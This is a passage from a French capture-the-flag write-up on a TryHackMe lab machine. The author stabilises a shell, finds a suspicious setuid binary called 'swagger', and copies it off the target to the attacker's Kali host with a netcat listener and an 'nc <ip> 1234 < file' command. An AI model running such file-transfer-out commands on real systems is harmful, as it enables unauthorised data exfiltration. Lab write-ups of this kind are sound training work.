```bash
/bin/mount

```

On stabilise le shell.  
On regarde les fichiers setuid, on trouve swagger qui est un fichier suspect.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234 > swagger 

--------------

hermonine@hogwartz-castle:/home/hermonine$nc 10.9.228.66 1234 < /srv/time-turner/swagger 
```

On transfère le fichier pour analyse.  

![page3](./Task1-03.png)
![page4](./Task1-04.png)